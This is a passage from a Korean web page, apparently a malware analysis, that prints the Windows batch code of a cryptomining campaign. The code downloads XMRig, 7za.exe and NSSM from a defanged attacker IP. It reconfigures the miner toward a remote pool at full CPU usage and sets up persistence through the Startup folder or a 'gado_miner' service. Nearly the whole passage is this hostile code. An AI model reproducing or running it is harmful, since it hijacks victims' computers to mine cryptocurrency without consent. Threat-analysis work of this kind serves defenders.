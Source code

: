 

<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h4>XMRIG 다운로드</h4>



<pre class="wp-block-code"><code>echo &#91;*] Downloading MoneroOcean advanced version of XMRig to “%USERPROFILE%\xmrig.zip”
powershell -Command “$wc = New-Object System.Net.WebClient; $wc.DownloadFile(‘http://141.85.161&#91;.]18/xmrig.zip’, ;%USERPROFILE%\xmrig.zip’)”
echo copying to mimu directory
if errorlevel 1 (
echo ERROR: Can’t download MoneroOcean advanced version of xmrig
goto MINER_BAD)</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h4>압축 풀기 및 설치</h4>



<pre class="wp-block-code"><code>echo &#91;*] Unpacking “%USERPROFILE%\xmrig.zip” to “%USERPROFILE%\mimu6”
powershell -Command “Add-type -AssemblyName System.IO.Compression.FileSystem; &#91;System.IO.Compression.ZipFile]::ExtractToDirectory(‘%USERPROFILE%\xmrig.zip’, ‘%USERPROFILE%\mimu6’)”
if errorlevel 1 (
echo &#91;*] Downloading 7za.exe to “%USERPROFILE%za.exe”
powershell -Command “$wc = New-Object System.Net.WebClient; $wc.Downloadfile(‘http://141.85.161&#91;.]18/7za.txt’, ‘%USERPROFILE%za.exe’”

powershell -Command “$out = cat ‘%USERPROFILE%\mimu6\config.json’ | %%{$_ -replace ‘\”url\”: *\”.*\”,’, ‘\”url\”: \”207.38.87&#91;.]6:3333\”,’} | Out-String; $out | Out-File -Encoding ASCII ‘%USERPROFILE%\mimu6\config.json’”
powershell -Command “$out = cat ‘%USERPROFILE%\mimu6\config.json’ | %%{$_ -replace ‘\”user\”: *\”.*\”,’, ‘\”user\”: \”%PASS%\”,’} | Out-String; $out | Out-File -Encoding ASCII ‘%USERPROFILE%\mimu6\config.json’”
powershell -Command “$out = cat ‘%USERPROFILE%\mimu6\config.json’ | %%{$_ -replace ‘\”pass\”: *\”.*\”,’, ‘\”pass\”: \”%PASS%\”,’} | Out-String; $out | Out-File -Encoding ASCII ‘%USERPROFILE%\mimu6\config.json’”
powershell -Command “$out = cat ‘%USERPROFILE%\mimu6\config.json’ | %%{$_ -replace ‘\”max-cpu-usage\”: *\d*,’, ‘\”max-cpu-usage\”: 100,’} | Out-String; $out | Out-File -Encoding ASCII ‘%USERPROFILE%\mimu6\config.json’”
set LOGFILE2=%LOGFILE:\=\\%
powershell -Command “$out = cat ‘%USERPROFILE%\mimu6\config.json’ | %%{$_ -replace ‘\”log-file\”: *null,’, ‘\”log-file\”: \”%LOGFILE2%\”,’} | Out-String; $out | Out-File -Encoding ASCII ‘%USERPROFILE%\mimu6\config.json’”
if %ADMIN% == 1 goto ADMIN_MINER_SETUP

if exist “%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup” (
set “STARTUP_DIR=%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup”
goto STARTUP_DIR_OK
)
if exist “%USERPROFILE%\Start Menu\Programs\Startup” (
set “STARTUP_DIR=%USERPROFILE%\Start Menu\Programs\Startup”
goto STARTUP_DIR_OK
)
echo &#91;*] Downloading tools to make gado_miner service to “%USERPROFILE%\nssm.zip”
powershell -Command “$wc = New-Object System.Net.WebClient; $wc.DownloadFile(‘&#91;http://141.85.161&#91;.]18/nssm.zip’, ‘%USERPROFILE%\nssm.zip’)”
if errorlevel 1 (
echo ERROR: Can’t download tools to make gado_miner service
exit /b 1</code></pre>
